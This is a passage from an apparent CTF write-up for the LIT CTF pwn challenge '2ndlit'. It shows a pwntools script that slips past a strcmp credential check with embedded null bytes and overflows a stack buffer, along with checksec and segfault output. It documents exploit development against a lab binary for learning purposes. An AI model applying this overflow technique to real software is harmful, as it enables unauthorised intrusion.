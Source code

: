 But wait just spamming the buffer does not overflow the stack instead it prints invalid credentials.
```bash 
󰣇 lit_ctf/pwn/2ndlit ❯ ./uc                                                                                                                                
Enter username:
LITCTF
Enter password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Invalid credentials
```
Why? Because of the `check` function, which checks our username and password , since here the password is not match with the one in program , it prints invalid credentials and exits the program.
```c

void FUN_004010a0(int param_1)

{
                    /* WARNING: Subroutine does not return */
  exit(param_1);
}

```
## First stage: overflow
Since strcmp only compares the strings until it has null byte is reached. so, we use it to write to be precise overflow beyound buffer while bypassing the check function of username and password. while still causing the segfault.
```py
p.recvuntil(b'Enter username:')
p.sendline(b'LITCTF')
p.recvuntil(b'Enter password:')
p.sendline(b'd0nt_57r1ngs_m3_3b775884\x00\nAAAAAALITCTF\x00\n'+cyclic(200))
```
This is my initial Python script to cause segmentation and by running this , I got a seg fault. Which is a Good thing.
```bash
 python sol.py                               
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc': pid 125836
[*] Switching to interactive mode

Welcome
---------------------------------------------------------
Today's news: Lexington High School starts their 5th CTF!
---------------------------------------------------------
Goodbye
[*] Got EOF while reading in interactive
$ ls
[*] Process '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc' stopped with exit code -11 (SIGSEGV) (pid 125836)
[*] Got EOF while sending in interactive

```
